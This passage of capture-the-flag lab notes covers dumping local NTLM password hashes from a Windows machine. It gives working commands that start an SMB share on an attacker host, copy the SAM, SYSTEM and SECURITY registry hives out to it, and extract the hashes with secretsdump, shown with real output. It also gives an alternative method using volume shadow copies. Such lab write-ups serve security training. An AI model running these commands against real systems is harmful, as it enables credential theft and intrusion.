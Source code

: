 ## Cracking
---

### Dump NTLM Hashes

> https://www.thehacker.recipes/ad/movement/credentials/dumping

For some reasons, I don't have the `SeBackupPrivilege` on SYSTEM to dump `sam` and `system` hive

#### Living Off the land

##### Dump Registry

> https://lolbas-project.github.io/#/credentials

Use method from [[#Psexec]] to get full privilege tokens

Host smb server

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ smbserver.py s . -smb2support
```

After that, dump and transfer the `sam`, `system` and `security` hive (Security can be ignored since the machine did not join a domain)

```bash
reg save HKLM\SECURITY \\10.11.19.145\s\security.bak && reg save HKLM\SYSTEM \\10.11.19.145\s\system.bak && reg save HKLM\SAM \\10.11.19.145\s\\sam.bak
```

Extract hashes with `secretsdump.py`

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.10.1.dev1+20230607.11222.cefe192 - Copyright 2022 Fortra

[*] Target system bootKey: 0x55bd17830e678f18a3110daf2c17d4c7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
[*] Cleaning up...
```

##### Volume Shadow Copy 

> https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#volume-shadow-copy-vssadmin

If the registry dump method doesn't work, try this (Failed on this machine)

```bash
# Create Shadow Copy
vssadmin create shadow /for=C:

copy $ShadowCopyName\Windows\System32\config\SAM C:\Windows\Temp\sam.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save

# Remove shadow copy
vssadmin delete shadows /shadow=$ShadowCopyId
```
